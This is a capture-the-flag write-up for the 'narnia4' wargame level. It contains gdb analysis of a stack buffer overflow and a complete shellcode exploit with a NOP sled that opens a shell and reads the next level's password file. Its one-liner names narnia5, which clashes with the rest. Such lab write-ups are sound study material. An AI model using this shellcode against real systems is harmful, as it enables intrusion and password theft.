 # narnia4

`/narnia/narnia4` can be exploited by a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) attack.

## Aim

When run, redirect program output from the default `/dev/null` device, to somewhere we can read later.

## Analysis

Last time, we used gdb's `break` and `step` to attack the problem. Sadly this time we have no such function:

```bash
(gdb) break strcpy
Breakpoint 1 at 0x8048360
(gdb) run $(printf "a%.0s" {1..256})
Starting program: /narnia/narnia4 $(printf "a%.0s" {1..256})

Breakpoint 1, 0xf7eaf680 in ?? () from /lib32/libc.so.6
(gdb) step
Cannot find bounds of current function
```

By running the program with the input increasing in 4-byte chunks from the allocated buffer, we eventually see:

```bash
(gdb) run $(printf "a%.0s" {1..272})
Starting program: /narnia/narnia4 $(printf "a%.0s" {1..272})

Program received signal SIGILL, Illegal instruction.
0xf7e3ca00 in __libc_start_main () from /lib32/libc.so.6
```
```
(gdb) run $(printf "a%.0s" {1..276})
Starting program: /narnia/narnia4 $(printf "a%.0s" {1..276})

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

The `0x61616161 in ?? ()` message indicates the return pointer for `main` has been overwritten with our input 

If we analyse the core dump within gdb using `x/3000x $esp` we can see where our command line argument is still sitting in memory:

```
0xffffd620:	0x00000000	0xffffd6b4	0xffffd6c0	0xf7feacca
...
0xffffd7d0:	0x00000000	0x72616e2f	0x2f61696e	0x6e72616e
0xffffd7e0:	0x00346169	0x61616161	0x61616161	0x61616161
0xffffd7f0:	0x61616161	0x61616161	0x61616161	0x61616161
...
0xffffd8e0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd8f0:	0x61616161	0x61616161	0x00000000	0x00000000
0xffffd900:	0x00000000	0x00000000	0x00000000	0x00000000
```

We can therefore use a slightly adjusted version of our [NOP sled](https://en.wikipedia.org/wiki/NOP_slide) solution for `narnia2`

## Exploitation

See `narnia2.md` for explanation. Note our input is now 276 bytes long to match our analysis above.

Oneliner to get shell:

```bash
/narnia/narnia5 $(printf "$(printf '\x90%.0s' {1..247})\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x10\xd8\xff\xff")
```

Complete script:

```bash
#!/bin/bash

# Shellcode that will open us a shell
EGGSHELL="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

# NOP sled
NOP_SLED=$(printf "\x90%.0s" {1..247})

# Pointer to where we think the NOP sled will be in memory
NOP_SLED_POINTER="\x10\xd8\xff\xff"

# Complete exploit to put in memory
EXPLOIT_ARGUMENT=$(printf "$NOP_SLED$EGGSHELL$NOP_SLED_POINTER")

# Command we want to run once given shell
printf "cat /etc/narnia_pass/narnia5" | \

# Pass to the exploitable program
/narnia/narnia4 $EXPLOIT_ARGUMENT
```

